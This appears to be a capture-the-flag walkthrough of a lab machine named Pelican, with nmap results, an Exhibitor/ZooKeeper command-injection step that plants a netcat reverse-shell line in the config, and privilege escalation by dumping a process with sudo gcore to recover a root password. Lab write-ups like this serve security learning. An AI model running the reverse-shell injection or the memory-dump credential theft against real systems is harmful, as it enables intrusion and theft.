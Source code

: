 # NMAP

During enumeration we find the following open TCP ports:22,139,445,631,2181,2222,8080,8081,41665

```sh
PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  etbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   syn-ack Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
8080/tcp  open  http        syn-ack Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        syn-ack nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.156.98:8080/exhibitor/v1/ui/index.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
41665/tcp open  java-rmi    syn-ack Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2023-12-11T05:55:26-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m15s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 54935/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 44532/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 23026/udp): CLEAN (Timeout)
|   Check 4 (port 14267/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2023-12-11T10:55:25
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

# Port 22 and 2222

The authentication methods on the SSH ports are:

```sh
PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
2222/tcp open  EtherNetIP-1 syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password

```

# SMB 445
```sh
nmap --script "safe or smb-enum-*" -p 445 192.168.156.98 -oA smb
```


# Port 8081 an 8080
We can see in the nmap results a redirect from port 8081 to port 8081.
When following the redirect we clearly can see the zookeeper exhibitor version 1.0

![](version.png)

This version has a RCE vulnerabilty: https://www.exploit-db.com/exploits/48654
 
We can follow the steps described in the exploit.
1. go to the config panel
2. Set editing to ‘on’.
3. add the line $(/bin/nc -e /bin/sh <IP> 4444 &) to 'java.env script' in the config panel.
4. Click on submit > all at once > ok.
5. Start nc listener on port 4444

![](exploit.png)

Boom we have a shell as the user charles!

![](user.png)


# Privilege Escalation
When running 'sudo -l' we can see that we can run gcore as root.

> Generate core dumps of one or more running programs with process.

Now we need to have a process which we can dump and where passwords are possibly stored in the memory.

This look suitable:


![](pwstore.png)


```
sudo gcore 527
```

Now the coredump is made. We can filter human readable strings with the strings program with a minimum of eight characters ( -n 8)

```sh
strings core* -n 8
```

In this we find a password:

![](passwd.png)

Now switch to root!

![](root.png)
